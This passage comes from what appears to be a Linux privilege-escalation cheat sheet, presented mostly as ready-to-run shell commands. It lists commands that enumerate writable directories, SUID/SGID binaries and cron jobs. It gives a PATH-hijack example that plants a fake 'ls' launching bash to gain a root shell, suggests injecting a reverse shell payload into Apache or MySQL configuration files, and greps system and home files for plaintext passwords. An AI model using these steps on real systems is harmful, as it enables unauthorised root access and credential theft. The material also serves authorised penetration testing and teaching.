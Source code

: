 ### Directories
- Writable directories:
```bash
find / -type d -writable 2>/dev/null
```

## SUID/SGID Binaries
Check for binaries with SUID/SGID permissions:
```bash
find / -perm -4000 2>/dev/null
find / -perm -2000 2>/dev/null
```

Search for exploits:
- [GTFOBins](https://gtfobins.github.io)

## Cron Jobs and Scheduled Tasks
Enumerate cron jobs:
```bash
cat /etc/crontab
ls -la /etc/cron.*
```

Check for writable cron scripts or paths:
```bash
find / -writable -path /etc/cron* 2>/dev/null
```

## Path Abuse
If a binary is running as root but does not use absolute paths, you can exploit the PATH variable.

Example:
```bash
export PATH=/tmp:$PATH
echo '/bin/bash' > /tmp/ls
chmod +x /tmp/ls
```

Run the vulnerable script and gain shell access.

## Exploiting Writable Configuration Files
Identify writable configuration files for services:
```bash
find / -name "*.conf" -writable 2>/dev/null
```

Modify configurations to inject malicious commands or code. For example:
- Add a reverse shell payload to an Apache or MySQL configuration file.

## Password Hunting
Search for plaintext passwords in files:
```bash
grep -i password /etc/* 2>/dev/null
grep -i password ~/.* 2>/dev/null
```
